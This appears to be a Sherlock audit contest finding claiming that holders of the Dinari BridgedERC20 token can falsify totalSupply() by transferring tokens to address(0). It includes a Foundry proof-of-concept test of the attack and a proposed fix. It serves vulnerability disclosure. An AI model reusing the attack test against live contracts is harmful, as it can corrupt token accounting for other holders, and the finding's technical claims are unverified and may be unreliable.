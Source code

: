 0xKodak

high

# Griefing Attack on token Contract

## Summary
Any Holder( User or Market Competitor) can impact damage to token contract making it return false values. This damage is most likely permanent and irreversible.

## Vulnerability Detail
Pls see POC below!!!!!!!!
A holder can force ```totalSupply()``` to permanently return false value by irrecoverably deleting his holdings through a path that doesn't update the totalSupply. Forcing ```totalSupply()``` to forever return false values.

## Impact
The token Contract's will forever return false / inaccurate values from ```totalSupply()``` affecting all future possible calculations and supply tokenomics. A really High Impact.

## Code Snippet
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.19;

import "forge-std/Test.sol";
import {BridgedERC20} from "../src/BridgedERC20.sol";
import {TransferRestrictor, ITransferRestrictor} from "../src/TransferRestrictor.sol";
import "openzeppelin-contracts/contracts/utils/Strings.sol";

contract Grief is Test {
    TransferRestrictor public restrictor;
    BridgedERC20 public token;
    address tokenMinter;
    address griefAttacker;
    address alice;

    function setUp() public {
        tokenMinter = makeAddr("minter");
        griefAttacker = makeAddr("griefer");
        alice = makeAddr("alice");
        restrictor = new TransferRestrictor(address(this));
        token = new BridgedERC20(
            address(this),
            "Dinari Token",
            "dTKN",
            "example.com",
            restrictor
        );
        


    }
    function testGrieferAttemptToFalsifyTotalsupply() public {
        // General Rule: totalSupply updates on MInting and Burning (address(0) transfers)

        token.grantRole(token.MINTER_ROLE(), tokenMinter); 
        //Minting to users
        vm.startPrank(tokenMinter);
        token.mint(griefAttacker, 500); // totalSupply accurately altered from 0 to 500
        token.mint(alice, 200); // totalSupply accurately altered from 500 to 700
        vm.stopPrank();

        // check
        uint accurateTotalSupply = token.totalSupply();  // accurate (700)
        console.log("totalSupplyBeforeGrief===",accurateTotalSupply);
         
        // griefer commences attack
        vm.prank(griefAttacker);
        token.transfer(address(0),500); // does not update totalSupply

        // After transfer to address(0) totalSupply should update to 200.
        // Unfortunately it doesn't. An irreversible damage to totalSupply
        uint unalteredTotalSupply = token.totalSupply();
        console.log("UnalteredAfterGriefHenceFalsified===",unalteredTotalSupply);
        assertFalse(unalteredTotalSupply == 200, "not falsified");
    }
}
```

## Tool used

Manual Review

## Recommendation
https://github.com/sherlock-audit/2023-06-dinari/blob/main/sbt-contracts/src/BridgedERC20.sol#L127C5-L136C6

```solidity
function _beforeTokenTransfer(address from, address to, uint256) internal virtual override {
        // Restrictions ignored for minting and burning
        // If transferRestrictor is not set, no restrictions are applied
        if (from == address(0) || to == address(0) || address(transferRestrictor) == address(0)) {
            if (to == address(0)) {
                require (msg.sender == address(burner)); // The precise mitigation but requires u implement and set burner address
            }
            return;
        }
        // @audit a restricted addr can burn??

        // Check transfer restrictions
        transferRestrictor.requireNotRestricted(from, to);
    }

```
